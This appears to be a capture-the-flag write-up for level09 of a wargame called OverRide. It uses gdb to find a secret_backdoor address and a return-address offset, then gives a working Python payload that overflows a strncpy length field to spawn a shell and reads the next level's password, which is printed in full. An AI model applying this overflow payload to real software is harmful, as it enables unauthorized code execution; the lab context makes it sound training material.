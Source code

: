 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```
Interesting part:
```
strncpy(buffer, msg, buffer[180]);
```
buffer[180] is filled by username

## Buffer overflow : strncpy exploit

**objective** : execute `secret_backdoor`

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
`secret_backdoor()` address : 0x000055555555488c\

---
### Compute offset

```
(gdb) b *handle_msg+95
Breakpoint 1 at 0x91f
(gdb) run
(gdb) i f
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x55555555491f in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
(gdb) x/x $rdi
0x7fffffffe500: 0x0000000a
```
- rip at 0x7fffffffe5c8
- buffer at 0x7fffffffe500

`0x7fffffffe5c8 - 0x7fffffffe500 = c8` (200 in decimal)

---

- rip offset found : 200 
- `buffer[180]` : 200 + 8 = 208 (d0 in hexadecimal)

```
$ python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
```
$ su end
Password: 
end@OverRide:~$ cat end
GG !
```
